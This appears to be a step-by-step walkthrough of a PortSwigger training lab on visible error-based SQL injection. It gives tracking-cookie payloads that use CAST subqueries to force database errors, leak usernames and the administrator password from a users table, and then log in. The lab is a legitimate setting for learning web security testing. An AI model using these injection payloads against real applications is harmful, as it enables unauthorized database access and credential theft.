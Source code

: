 # Visible error-based SQL injection

## This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.

The database contains a different table called `users`, with columns called `username` and `password`. To solve the lab, find a way to leak the password for the `administrator` user, then log in to their account.

---

**NOTE:**
`SELECT CAST(1 AS int)--` => it will return `1`
`SELECT CAST((SELECT 1) AS int)--` => it will return `1`

step 1

go to proxy => http history => select any Request => then send to repeater

![screnshot](./images/lab13_1.png)

step 2

add `'` just after TrackingId


```sql
rackingId=6zYV1IBjiO5WaU1p'
```

![screnshot](./images/lab13_2.png)

step 3

add `''` just after TrackingId


```sql
rackingId=6zYV1IBjiO5WaU1p''
```

![screnshot](./images/lab13_3.png)

step 4

add `' AND CAST((SELECT 1) AS int)--`

```sql
TrackingId=6zYV1IBjiO5WaU1p'+AND+CAST((SELECT+1)+AS+int)--
```

![screnshot](./images/lab13_4.png)

step 5

add `' AND 1=CAST((SELECT 1) AS int)--`

```sql
TrackingId=6zYV1IBjiO5WaU1p'+AND+1%3dCAST((SELECT+1)+AS+int)--
```

![screnshot](./images/lab13_5.png)

step 6

add `' AND 1=CAST((SELECT username FROM users) AS int)--`

```sql
TrackingId=6zYV1IBjiO5WaU1p'+AND+1%3dCAST((SELECT+username+FROM+users)+AS+int)--
```

![screnshot](./images/lab13_6.png)

step 7

remove trackingId and
add `TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--`

```sql
TrackingId%3d'+AND+1%3dCAST((SELECT+username+FROM+users)+AS+int)--
```

![screnshot](./images/lab13_7.png)

step 8

add `TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--`

```sql
TrackingId='+AND+1%3dCAST((SELECT+username+FROM+users+LIMIT+1)+AS+int)--
```

![screnshot](./images/lab13_8.png)

step 9

add `TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`

```sql
TrackingId='+AND+1%3dCAST((SELECT+password+FROM+users+LIMIT+1)+AS+int)--
```

![screnshot](./images/lab13_9.png)

step 10

To solve the lab
login using `administrator` as username and password `6twusmy93tckofkybx0d`

![screnshot](./images/lab13_10.png)

